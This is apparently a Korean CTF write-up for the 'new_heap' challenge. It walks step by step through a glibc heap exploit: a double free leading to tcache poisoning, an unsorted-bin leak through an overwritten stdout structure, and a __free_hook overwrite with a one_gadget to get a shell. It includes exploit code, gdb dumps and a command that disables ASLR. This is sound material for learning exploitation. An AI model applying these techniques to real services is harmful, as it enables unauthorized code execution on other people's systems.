# 취약점 분석

## 바이너리 개요

```python
new_heap: ELF 64-bit LSB shared object
x86-64 version 1 (SYSV)
dynamically linked
interpreter /lib64/ld-linux-x86-64.so.2
for GNU/Linux 2.6.32
BuildID[sha1]=d8a6eae195909da34581c15b13d84d41ebeeab2e
stripped

linux-vdso.so.1 (0x00007ffff7ffb000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff77e1000)
					   /lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd5000)
```

## 보호 기법

```python
[*] '/home/Zer0Luck/challenges/new_heap/new_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## main 함수 분석




- `print_menu` 함수를 바탕으로 1.alloc, 2. free, 3. exit 조건을 수행하는 것을 확인할 수 있다.

## alloc



- 메모리 동적할당 과정을 확인해 보면 전역 포인터 배열 `heap_ptr` 에 할당하는 것을 확인할 수 있으며 인덱스 범위가 총19개까지 할당이 가능하다.
- 사용자의 입력값이 `0x78` 이하까지 size로 할당이 되어지며 해당 사이즈 만큼 데이터를 입력 할 수 있다.

## free



- free되는 과정을 확인해 보면 사용자의 입력 값이 곧 인덱스 범위로 사용되어 원하는 힙을 해제할 수 있으며 기본적인 길이 검증이 존재한다.
- 하지만 해제한 초인터를 초기화하지 않기 때문에 Double Free Bug가 발생한다.

## memory leak Idea

- 어떻게 하면 메모리 주소값을 릭할 수 있을 까?
- 힙 청크의 데이터를 출력하는 기능이 존재하지 않아 다른 방법을 찾아야 한다.

## _IO_FILE_stdout

- `stdout` 파일 디스크립터는 출력할 때 주로 사용하며 구조체로 수많은 멤버 변수가 정의되어 있다.

```cpp
struct _IO_FILE
{
  int _flags;		/* High-order word -> _IO_MAGIC, 나머지는 플래그 */
  /* 다음 포인터는 C++ streambuf 프로토콜에 해당한다. */
  char *_IO_read_ptr;	/* 파일 읽기 버퍼에 대한 포인터*/
  char *_IO_read_end;	/* 파일 읽기 버퍼 주소의 끝을 가리키는 포인터*/
  char *_IO_read_base;	/* Start of putback+get area.,
 파일 읽기 버퍼 주소의 시작을 가리키는 포인터 */
  char *_IO_write_base;	/* 파일 쓰기 버퍼의 주소의 시작을 가리키는 포인터 */
  char *_IO_write_ptr;	/* 쓰기 버퍼에 대한 포인터 */
  char *_IO_write_end;	/* 파일 쓰기 버퍼 주소의 끝을 가리키는 포인터 */
  char *_IO_buf_base;	/* Start of reserve area. 준비 구역의 시작 */
  char *_IO_buf_end;	/* 준비 구역의 끝 */
  /* 다음 필드는 백업 및 실행 취소를 지원하는데 사용된다.*/
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain; 
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  ~~~~_IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

## stdout

```cpp
0x7ffff7dd0760 <_IO_2_1_stdout_>:       0x00000000fbad2887      0x00007ffff7dd07e3
0x7ffff7dd0770 <_IO_2_1_stdout_+16>:    0x00007ffff7dd07e3      0x00007ffff7dd07e3
0x7ffff7dd0780 <_IO_2_1_stdout_+32>:    0x00007ffff7dd07e3      0x00007ffff7dd07e3
0x7ffff7dd0790 <_IO_2_1_stdout_+48>:    0x00007ffff7dd07e3      0x00007ffff7dd07e3
0x7ffff7dd07a0 <_IO_2_1_stdout_+64>:    0x00007ffff7dd07e4      0x0000000000000000
0x7ffff7dd07b0 <_IO_2_1_stdout_+80>:    0x0000000000000000      0x0000000000000000
0x7ffff7dd07c0 <_IO_2_1_stdout_+96>:    0x0000000000000000      0x00007ffff7dcfa00
0x7ffff7dd07d0 <_IO_2_1_stdout_+112>:   0x0000000000000001      0xffffffffffffffff
0x7ffff7dd07e0 <_IO_2_1_stdout_+128>:   0x000000000a000000      0x00007ffff7dd18c0
0x7ffff7dd07f0 <_IO_2_1_stdout_+144>:   0xffffffffffffffff      0x0000000000000000
0x7ffff7dd0800 <_IO_2_1_stdout_+160>:   0x00007ffff7dcf8c0      0x0000000000000000
0x7ffff7dd0810 <_IO_2_1_stdout_+176>:   0x0000000000000000      0x0000000000000000
0x7ffff7dd0820 <_IO_2_1_stdout_+192>:   0x00000000ffffffff      0x0000000000000000
0x7ffff7dd0830 <_IO_2_1_stdout_+208>:   0x0000000000000000      0x00007ffff7dcc2a0
```

- printf, puts와 같은 stdout 파일 디스크립터를 사용하는 함수가 호출될 때 내부적으로 `_IO_new_do_write` 함수가 호출된다.



- `puts` 함수를 호출할 때 `_IO_new_file_xsputn` 함수를 호출하고 해당 함수에서 다음과 같이 `new_do_write` 함수를 호출하게 된다.

## _IO_new_file_xsputn 함수

```cpp
_IO_size_t
_IO_new_file_xsputn (_IO_FILE *f, const void *data, _IO_size_t n)
{
    ...
    if (do_write)
	{
		count = new_do_write (f, s, do_write);
		to_do -= count;
		if (count < do_write)
		    return n - to_do;
	}
    ...
}
```

- new_do_write(f,s,do_write) 함수 호출
- fp, stdout 구조체

## new_do_write 함수

```cpp
#define _IO_IS_APPENDING 0x1000

static size_t new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  // 전달 받은 파일 포인터의 _flags 멤버 변수의 값이
	//  _IO_IS_APPENDING 비트를 포함하고 있는지 확인한다.
  if (fp->_flags & _IO_IS_APPENDING)                              
    fp->_offset = _IO_pos_BAD;

  // 전달 받은 파일 포인터의 _IO_read_end 포인터와
	// _IO_write_base 포인터가 다른지 확인한다.
  else if (fp->_IO_read_end != fp->_IO_write_base)                  
    {
      off64_t new_pos
	= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
	return 0;
      fp->_offset = new_pos;
    }
// 만약 line 8의 조건에서 값이 같다면
//  _IO_SYSWRITE 함수를 통해 new_do_write 함수의 인자인 data를 to_do의 크기만큼 출력한다.
  count = _IO_SYSWRITE (fp, data, to_do);   
                      
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
		       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
		       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

- stdout→flags 에 `_IO_IS_APPENDING` 이 포함되어 있어야 한다.
- _IO_new_do_write, _IO_SYSWRITE를 통해 _IO_write_base를 출력한다.

```cpp
count = _IO_SYSWRITE (fp, data, to_do);

-->
if ((int)_IO_sputn (s, hp->_IO_write_base, to_flush) != to_flush)
	result = -1;
```

## How to exploit using stdout

- flags, _IO_write_base를 조작 한다.
- _IO_write_base를 하위 바이트만 조작하여 라이브러리 줏소가 위치한 주소를 가리키게 하여 라이브러리 주소를 출력할 수 있다.

```cpp
gdb-peda$ p *(_IO_FILE *)stdout
$5 = {
  _flags = 0xfbad2887, 
  _IO_read_ptr = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_read_end = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_read_base = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_base = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_ptr = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_end = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_buf_base = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n", 
  _IO_buf_end = 0x7ffff7dd07e4 <_IO_2_1_stdout_+132> "", 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _markers = 0x0, 
  _chain = 0x7ffff7dcfa00 <_IO_2_1_stdin_>, 
  _fileno = 0x1, 
  _flags2 = 0x0, 
  _old_offset = 0xffffffffffffffff, 
  _cur_column = 0x0, 
  _vtable_offset = 0x0, 
  _shortbuf = "\n", 
  _lock = 0x7ffff7dd18c0 <_IO_stdfile_1_lock>, 
  _offset = 0xffffffffffffffff, 
  _codecvt = 0x0, 
  _wide_data = 0x7ffff7dcf8c0 <_IO_wide_data_1>, 
  _freeres_list = 0x0, 
  _freeres_buf = 0x0, 
  __pad5 = 0x0, 
  _mode = 0xffffffff, 
  _unused2 = '\000' <repeats 19 times>
}
```

- 해당 구조체를 덮어쓰기 위해서는 라이브러리 주소를 이용해야 한다.
- main_arena 영역 주소가 힙 청크에 남아야 하며 그렇게 하기 위해서는 unsorted bin을 이용해야 한다.

## Double Free Bug

- Double Free Bug가 발생하면 같은 포인터를 두 번 가리키며 새로 할당해 값을 쓰게 된다면 ForwarD PTR를 덮을 수 있다.

```cpp
alloc(40, "AAAA")

# double free test
free(0)
free(0)
    
alloc(40, "BBBB")
```



- FD 위치의 주소 값이 변경되어 4바이트의 0x42가 들어 가 tcache영역을 확인하게 되면 다음 주소 값이 변경된 것을 확인할 수 있겠다.

## Fake chunk 구성

```cpp
#fake chunk
alloc(0x38, p64(0)+p64(0xd1))
alloc(0x10, "AAAA")
```

- unsorted bin을 구성하기 위해서는 tcache를 사용하지 않게끔 7개의 bin을 꽉 채워야 하며 `0x78` 크기 까지 할당할 수 있기 때문에 `0x410` 초과의 크기만큼 할당한후 해제하여 unsorted bin으로 만드는 것은 불가능하다.
- Fake Chunk를 해제해 main_arena 영역의 주소를 써야 하며 Fake Chunk를 해제하기 위해서는 인접한 청크가 존재해야 한다.
- 0x555555757260 + 0xd0 주소에 힙 청크가 존재해야 한다.



```cpp
for i in range(0, 2):
    alloc(0x78, "AAAA")
```

- 0x555555757260+0xd0 주소에 청크가 존재해야 하며 해제할 시 정상적으로 해제가 가능하지만 아직 해제는 불가능 하다 정상적으로 할당된 청크가 아니기 때문이다.



## How to Free?

- 첫 번째 할당 때 FD의 한 바이트를  "\x70"으로 덮어 써 Fake Chunk의 데이터 부분을 가리키도록 한다. (FD: 0x555555757270)
- 두 번 할당시 해당 영역에 할당 가능하다.



- FD를 Fake Chunk의 주소 값으로 조작하여 첫 번째 tcache가 Fake chunk의 주소 값을 가리키는 것을 확인할 수 있다.
- 두 번 할당시 해당 영역에 할당 가능하다.

```cpp
#fake chunk
alloc(0x38, p64(0)+p64(0xd1))
alloc(0x10, "AAAA")

for i in range(0, 2):
    alloc(0x78, "AAAA")

free(0)
free(0)
free(0)

# 0xd1(size) -> Fake chunk
alloc(0x38, p8(0x70))
alloc(0x38, "A")
alloc(0x38, "BBBB")
```



- 포인터 배열 6번째 인덱스에 Fake chunk가 할당된 모습을 확인할 수 있다.
- 해제를 세 번 한 이유는 `tcache->counts` 가 underflow 되는 것을 막기 위해서이다.
- free시 tcache→counts++
- malloc시 tcache→counts--
- 만약 할당 과정에서 두 개의 tcache를 사용하게 된다면 다음 할당 과정에서 음수 처리가 되지 않기 때문에  255 변환되어 underflow되어 tcache를 사용하지 않는다.
- tcache는 7개 bin만을 관리하기 때문이다.

## Free Fake chunk

- `0xd0` 크기 또한 tcache에서 관리하기 때문에 unsorted bin이 되지 못한다.
- 해당 청크를 8번 해제하면 마지막 해제할 때 unsorted bin이 되어 tcache escape가 가능하다.

```cpp
#fake chunk
alloc(0x38, p64(0)+p64(0xd1))
alloc(0x10, "AAAA")

for i in range(0, 2):
    alloc(0x78, "AAAA")

free(0)
free(0)
free(0)

# 0xd1(size) -> Fake chunk
alloc(0x38, p8(0x70))
alloc(0x38, "A")
alloc(0x38, "BBBB")

# escape tcache
for i in range(0, 7):
    free(6)

# unsorted bin <- escape tcache (8)
free(6)
pause()
```



- `0x555555757260` Fake Chunk 부분을 8번 해제하여 마지막 한 부분이 unsortedbin 값에 대입된다.
- unsorted bin으로 넘어가는 부분에서 FD, BK 위치에 main_arena 주소가 담겨 있는 것을 확인할 수 있다.

## point to stdout



- stdout 주소와 main_arena 영역의 주소는 가까우며 1.5byte brute-force를 통해 main_arena의 주소를 stdout 주소로 조작해야 한다.
- ASLR을 끈 후에 익스프로잇을 작성하자

```cpp
sysctl -w kernel.randomize_va_space=0
```

- 미리 할당한 청크를 Double Free해 unsorted bin 청크 위에 새로 할당하고 하위 바이트를 덮어써 stdout 주소로 조작 한다.

```cpp
# double free
free(2)
free(2)

# point to main_arena address of unsorted bin
alloc(0x78, "\x70")
alloc(0x78, "A")
# stdout brute force
alloc(0x78, "\x60\x07\xdd")
pause()
```



- Double Free Bug를 바탕으로 같은 주소를 가리키게 한 다음 해당 크기 만큼 동적할 당하여 FD 값을 `\x70` 바이트로 변조하여 Fake Chunk를 가리키게 한다.
- 다음 할당은 버리고 Fake Chunk에 값을 써 하위 3바이트 부분을 stdout 주소로 변조한다.
- 그럼이제 stdout을 조작할 준비가 끝났다.

## Overwrite Stdout Struct

- Double Free Bug를 통해 조작한 stdout 주소가 존재하는 위치에 힙 청크를 할당 한다.
- 할당하게 되면 FD가 stdout 주소가 되기 때문에 다음 할당 시 stdout 구조체에 할당이 되어 해당 구조체에 값을 쓸 수 있다.

```cpp
# double free bug
free(0)
free(0)
free(0)

alloc(0x38, "\x70")
alloc(0x38, "A")
alloc(0x38, "\x60") # stdout 1 byte \x60
pause()
```



- 이제 stdout 구조체를 영역을 할당하여 값을 조작하도록 한다.



- _IO_FILE 구조체의 stdout을 확인해 보면 우리가 변조해야 할 부분은 `_flags`, `_IO_write_base` 이다.
- 기존의 stdout flags 값은 `0xfbad2887` , `_IO_IS_APPENDING` 플래그가 존재하지 않기 때문에 `0xfbad2887 | 0x1000` 값으로 조작하자
- `_IO_write_base` 값의 하위 바이트를 `\x20` 으로 조작해 라이브러리 주소를 출력 한다.

```cpp
# double free bug
free(0)
free(0)
free(0)

alloc(0x38, "\x70")
alloc(0x38, "A")
alloc(0x38, "\x60") # stdout 1 byte \x60

alloc(0x38, p64(0xfbad1887)+p64(0)*3 + "\x20")

libc = uu64(r(8)) - 0x3eb780
one_shot = libc+0x4f3c2
free_hook = libc+0x3ed8e8
leak("libc",libc)
leak("one_shot ",one_shot)
leak("free_hook",free_hook)
```



- 라이브러리 주소를 획득할 수 있다.


## shell!

- Double Free Bug를 통해 __free_hook에 할당을 한 후 oneshot 가젯 주소로 조작한다.
- free 함수를 호출하여 쉘을 획득 할 수 있다.

```cpp
# double free
free(1)
free(1)

alloc(0x10, p64(free_hook))
alloc(0x10, 'A')
alloc(0x10, p64(one_shot))

free(0)

irt()
```



```toc
```